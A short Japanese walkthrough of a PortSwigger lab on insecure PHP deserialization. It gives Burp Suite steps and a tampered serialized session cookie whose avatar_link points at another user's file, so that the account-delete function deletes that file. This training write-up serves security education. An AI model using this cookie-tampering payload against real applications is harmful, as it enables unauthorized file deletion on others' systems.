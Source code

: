 # アプリケーション機能を使用して安全でない逆シリアル化を悪用する

以下のハッキングラボを実施します  
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization  
このラボでは、シリアル化ベースのセッション メカニズムを使用します。特定の機能は、シリアル化されたオブジェクトで提供されるデータに対して危険なメソッドを呼び出します。

- 1. Burp Suite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. 自分のアカウントを削除してみます
- 5. POST /my-account/delete HTTP/2 リクエストを send to repeater します

* 6. 別の一般ユーザーでログインします
* 7. Send to repeater したリクエストのクッキーを手順 6 で取得したものに差し替えます
* 8. クッキーを以下のように編集します  
     [変更前]

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"gpb1i1gr3gekgqe7gt4qwh9b9rz81rxp";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```

[変更後]

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"gpb1i1gr3gekgqe7gt4qwh9b9rz81rxp";s:11:"avatar_link";s:23:"/home/carlos/morale.txt"}
```

- 9. リクエストを送信すると carlos のアカウントが削除されます
